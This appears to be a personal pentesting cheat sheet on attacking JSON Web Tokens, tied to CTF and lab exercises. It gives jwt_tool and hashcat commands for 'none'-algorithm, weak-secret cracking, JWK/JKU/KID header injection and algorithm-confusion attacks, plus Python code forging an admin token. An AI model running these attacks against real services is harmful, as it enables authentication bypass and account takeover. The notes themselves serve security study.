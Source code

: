 # JSON Web Token (JWT)

[![hacking_jwt](../../../../_badges/hacktricks/hacking_jwt.svg)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)
[![json_web_token](../../../../_badges/poat/json_web_token.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)
[![marketplace](../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)
[![jwt](../../../../_badges/ps-course/jwt.svg)](https://portswigger.net/web-security/jwt)

<div class="row row-cols-lg-2"><div>

JSON Web Token (JWT) are used to represent signed data. They are commonly used in for authentication and authorization.

The format is: `<algo>.<data>.<signature>`. Each part is base64 encoded, so the final string is URL-safe while it can be easily decoded.

The data is signed using a secret key. If the secret key is compromised, everyone can sign messages 🔏.

The signature is used to detect if data was tampered with.
</div><div>

They can be transferred and found in:

* 📚 Headers (`Authorization: Bearer <JWT>`)
* 🍪 Cookies
* 📄 URL Parameters
* 💼 Request Body
* ...

📚 JWT is a specification, JWS <small>(mostly)</small>/JWE are implementations.
</div></div>

<hr class="sep-both">

## JWT Tools

<div class="row row-cols-lg-2"><div>

#### jwt-tools (Python)

You can use [jwt-tools](https://github.com/ticarpi/jwt_tool) <small>(5.4k ⭐)</small> to attack JWT:

```shell!
$ git clone https://github.com/ticarpi/jwt_tool.git $HOME/tools/jwt_tool
$ chmod +x $HOME/tools/jwt_tool/jwt_tool.py
$ ln -s $HOME/tools/jwt_tool/jwt_tool.py $HOME/.local/bin/jwt_tool
$ jwt_tool -h
```

```ps
$ jwt_tool 'jwt'             # decode
$ jwt_tool 'jwt' -T          # encode
$ jwt_tool 'jwt' -I -pc claim -pv value
```
</div><div>

#### jwt.io (Website)

You can also use [jwt.io](https://jwt.io/).

<br>

#### JWT wordlists

A common handy wordlist is [jwt-secrets](https://github.com/wallarm/jwt-secrets).

```ps
$ wget "https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list"
```
</div></div>

<hr class="sep-both">

## Common JWT Attacks

<div class="row row-cols-lg-2"><div>

#### JWT — Unverified Signature

[![jwt_unverified_signature](../../../../_badges/ps-lab/jwt/jwt_unverified_signature.svg)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature)

It's possible for the signature to not be checked at all by the server.

```ps
$ jwt_tool 'jwt' -I -pc claim -pv value
```

<br>

#### JWT — Null Signature

[![jwt_introduction](../../../../_badges/rootme/web_server/jwt_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction)
[![jwt_flawed_signature_verification](../../../../_badges/ps-lab/jwt/jwt_flawed_signature_verification.svg)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification)

If the signature algorithm is not verified, you may set it to 'none,' and remove the signature that is not required anymore.

```ps
$ jwt_tool 'jwt' -T -X a     # attack 'algo=none'
```

📚 You can use `none`, `None`, `NONE`, etc.

<br>

#### JWT — Weak Secret Key

[![jwt_weak_secret](../../../../_badges/rootme/web_server/jwt_weak_secret.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret)
[![jwt_weak_key](../../../../_badges/ps-lab/jwt/jwt_weak_key.svg)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key)

The secret key may be weak and brute forced:

```ps
$ jwt_tool 'jwt' -C -d ./jwt.secrets.list # crack key
$ jwt_tool 'jwt' -T -p "key" # use secret key
$ jwt_tool 'jwt' -p "key" -S hs256 -I -pc claim -pv value
```

```ps
$ hashcat -m 16500 hash ./jwt.secrets.list
```

<br>

#### JWT — JWK Header Injection

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)

An application may use the `jwk` header to represent the RSA key used to sign the data. We may be able to inject our own RSA key.

```ps
$ jwt_tool 'jwt' -X i -T   # attack 'jwk header injection'
$ jwt_tool 'jwt' -X i -T -hc kid -hv jwt_tool  # with kid
$ jwt_tool 'jwt' -X i -I -hc kid -hv jwt_tool -pc claim -pv value
```
</div><div>

#### JWT — JKU Header Injection

[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)

The `jku` header contains a URL or a filename used to fetch a key.

* When a asymmetric algorithm such as RS is used:

```shell!
$ cat $HOME/.jwt_tool/jwttool_custom_jwks.json # upload to URL as jwks.json
$ jwt_tool -X s -ju "URL/jwks.json" -I -hc kid -hv jwt_tool -pc claim -pv value
```

📚 You may check: `/jwks.json`, `/.well-known/jwks.json`, etc. Refer to [SSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md) for insight <small>(filtering, attacks, etc.)</small> and setting up a [grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md).

<br>

#### JWT — KID Header Injection

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)
[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)
[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)
[![jwt_unsecure_file_signature](../../../../_badges/rootme/web_server/jwt_unsecure_file_signature.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-File-Signature)

The kid header may be present in two scenarios. The first one is to define which key file contains the secret. The second usage is to determines which of the keys in the `jku` we should use.

```shell!
$ # The file "/dev/null" is empty so -p is ""
$ jwt_tool "" -I -hc kid -hv "/dev/null" -S hs512 -p "" -pc claim -pv value
```

➡️ Refer to [Path Traversal](/cybersecurity/red-team/s3.exploitation/vulns/web/path_traversal.md) and my [cheatsheet](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md) for more notes.

<br>

#### JWT — Algorithm Confusion Attack

[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)

When using RS256 algorithm, JWT uses the private key to sign the JWK and the public key to verify integrity. We may be able to perform a downgrade attack to HS256 and only use a public key for both.

```ps
$ jwt_tool 'jwt' -S hs256 -k public.key -T
```

You can compute the public key if you have two messages:

```ps
$ docker run -it ttervoort/jws2pubkey "JWT1" "JWT2"
```
</div></div>

<hr class="sep-both">

## Python JWT

<div class="row row-cols-lg-2"><div>

The [pyjwt](https://github.com/jpadilla/pyjwt) <small>(5.1k ⭐)</small> library can be used to manipulate JWT in Python. There are two unmaintained alternatives which are:

* [python-jwt by GehirnInc](https://github.com/GehirnInc/python-jwt) <small>(0.1k ⭐, 2022 🪦)</small>
* [python-jwt by D. Halls](https://github.com/davedoesdev/python-jwt) <small>(0.2k ⭐, 2023 🪦)</small> — has two CVEs

```py
headers = {
    'kid': '/dev/null'
}
payload = {
    'role': 'admin',
    'iat': int(datetime.datetime.now(datetime.UTC).timestamp())
}
```
</div><div>

To install it:

```shell!
$ pip install pyjwt
```

To generate a JWT:

```py
import jwt
token = jwt.encode(payload, '', algorithm='HS512', headers=headers)
```

To decode a JWT:

```py
import jwt
payload = jwt.decode(token, '', algorithms=['HS512'])
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [PortSwigger JWT](https://portswigger.net/web-security/jwt)
* [jwtcrack/jwt2john](https://github.com/Sjord/jwtcrack)
</div><div>
</div></div>